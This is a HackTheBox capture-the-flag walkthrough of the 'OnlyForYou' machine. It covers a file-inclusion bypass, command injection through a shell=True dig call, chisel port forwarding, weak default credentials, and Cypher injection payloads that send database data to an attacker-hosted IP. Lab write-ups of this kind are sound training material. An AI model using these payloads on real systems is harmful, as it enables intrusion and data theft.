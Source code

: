 <h3> OnlyForYou HackTheBox </h3>

Difficulty = Medium

Nmap Scan:
![image](https://user-images.githubusercontent.com/127159644/236711287-ceef7d4e-9e1b-4ac7-badc-ebe28f16d87c.png)

Update your */etc/hosts* file with the content of the domain name *only4you.htb*

Going over to the web server shows this
![image](https://user-images.githubusercontent.com/127159644/236711396-45b855af-4ddc-4ac6-87a5-352a24ba7d72.png)

Using *ffuf* I fuzzed for subdomain on the vhosts
![image](https://user-images.githubusercontent.com/127159644/236711542-c0362d61-3615-4337-964a-b9767825ec42.png)

Adding the new sub domain *beta.only4you.htb* to my */etc/hosts* file
![image](https://user-images.githubusercontent.com/127159644/236711590-70da737f-b94f-4e51-8266-b1b4124cf0de.png)

Checking the sub domain shows this
![image](https://user-images.githubusercontent.com/127159644/236711622-20a4ed18-e7fc-4ab4-9bef-115d93b2d1f5.png)

I downloaded the source code for this web instance
![image](https://user-images.githubusercontent.com/127159644/236711685-b024754b-a351-45b8-bc32-75ec0f69703e.png)

There's a file upload functon but I didn't particularly find it interesting cause it was rather secured to me 🤔

But here's the vulnerable part of the code
![image](https://user-images.githubusercontent.com/127159644/236711846-fd096b18-edfa-475a-bfe6-d9d867d0b989.png)

The user can query files for download and there's a prevention against LFI but we can still achieve file inclusion without using *../*
![image](https://user-images.githubusercontent.com/127159644/236712019-dbbffe0c-5cf4-445f-8518-c5e59f253816.png)

I made a [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/onlyforyou/enumerate.py) to automate finding of files 

We know that the server is hosted on *Nginx* from *Wappalyzer Result*
![image](https://user-images.githubusercontent.com/127159644/236713368-0084a968-f8bf-44ae-b873-11e106219ef7.png)

And the default path for web server (vhost) config running nginx is */etc/nginx/sites-enabled/default*

Checking it shows the web path to the vhost which turns out to be */var/www/only4you.htb/ and /var/www/beta.only4you.htb*
![image](https://user-images.githubusercontent.com/127159644/236713662-546d441f-f348-44a7-acef-080cda872f97.png)

Now we can enumerate more files

Out of curiosity we can tell that the web server is built with python and since the sub domain for the vhost has app.py then the doman should also have 🤔

Checking it shows that it's indeed there */var/www/only4you.htb/app.py*
![image](https://user-images.githubusercontent.com/127159644/236714308-46607e76-c122-4a0e-8a53-6525a37cf52b.png)
![image](https://user-images.githubusercontent.com/127159644/236714364-b44ee2ea-8bb5-4fb7-952d-59821593c155.png)

Looking at the code we can see that it is built on the *form* module 

Lets fetch the *form* module at */var/www/only4you.htb/form.py*
![image](https://user-images.githubusercontent.com/127159644/236714557-7fcf1c9c-a224-4d83-a68a-8e58ef829055.png)
![image](https://user-images.githubusercontent.com/127159644/236714641-daefa71d-a6bc-4502-a434-8d267d7dab9b.png)

Looking at the code we can see that it does:

```python
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```

So far that variable shell is set to True we can basically inject command which will lead to command injection and maybe shell :D

Lets test it out
![image](https://user-images.githubusercontent.com/127159644/236715685-48a2499c-7918-4999-b4d0-20e46cf07711.png)

It works cool here's the [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/onlyforyou/execute.py) that I made for it

Using it to get shell works
![image](https://user-images.githubusercontent.com/127159644/236715962-cef7b857-8b75-4845-bb32-d01a8c914c0f.png)

Here's how I stabilized my shell

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Checking the internal ports avaiable shows that a service is running on port 3000 and 8001
![image](https://user-images.githubusercontent.com/127159644/236716251-7e6f788d-86ce-4c4b-93a9-bad02d10b5a0.png)

Lets port forward using chisel shall we 🙂
![image](https://user-images.githubusercontent.com/127159644/236716419-626c5220-9a6a-4150-aeab-5ff3d51a0891.png)

```bash
Command:

Host: chisel server -p 9001 --reverse
Target: ./chisel client {host}:9001 R:3000:127.0.0.1:3000 &
```

We can confirm that it was successfully port forwarded by scanning our host
![image](https://user-images.githubusercontent.com/127159644/236716902-a733ac13-25e0-4a9f-9c1e-e3b7e3f67f08.png)

Now lets see what it contains or rather what it is 😅
![image](https://user-images.githubusercontent.com/127159644/236717017-4ae503d5-2697-4403-8c33-8eee48cc1f4d.png)

Hmmmm that's an instance of Gogs

I checked /explore to see if i can get any repo but i didn't tho i got two users which were *John and Administrator*
![image](https://user-images.githubusercontent.com/127159644/236717468-98e81d97-39c4-4766-9876-cfe9f608b44c.png)

Nothing much we can do now

Lets port forward the service on port 8001 and see what we can fetch 

After I did that (the same i port forwarded earlier) looking at the page shows this
![image](https://user-images.githubusercontent.com/127159644/236717677-1742d53a-3490-4f89-ad45-e317176d5214.png)

Trying weak cred *admin:admin* works
![image](https://user-images.githubusercontent.com/127159644/236717758-e9528367-0261-48b4-bfe9-62c79d54b704.png)

Poking around I saw the notes left by the admin
![image](https://user-images.githubusercontent.com/127159644/236717899-c48aa7c2-60f8-45d9-9d1e-2ac70d875c8d.png)

The db is based of neo4j interesting 🤔

There's a search function of the web app
![image](https://user-images.githubusercontent.com/127159644/236717977-991faca1-807d-4ac0-9506-617505ffc1fb.png)

Looking for how to exploit neo4j database leads to Cypher Injection here's the [source](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j)

We can test with this query through Burpsuite to know the version, then url encode and send it a web server hosted by us.

```sql
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.175/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

Trying the query leaks the version
![image](https://user-images.githubusercontent.com/127159644/236718595-8bf9d822-d889-4245-b196-6c50ed12e07b.png)
![image](https://user-images.githubusercontent.com/127159644/236718623-4da759bb-625a-4114-8357-512c73ff0cef.png)

Now lets get the list of tables

```sql
'OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.175/?label='+label as l RETURN 0 as _0 //
```

![image](https://user-images.githubusercontent.com/127159644/236719094-e295b16d-f40e-40da-b8a2-5d9665fb25a9.png)
![image](https://user-images.githubusercontent.com/127159644/236719119-0536de45-fbd8-409d-9061-66992e1759ba.png)


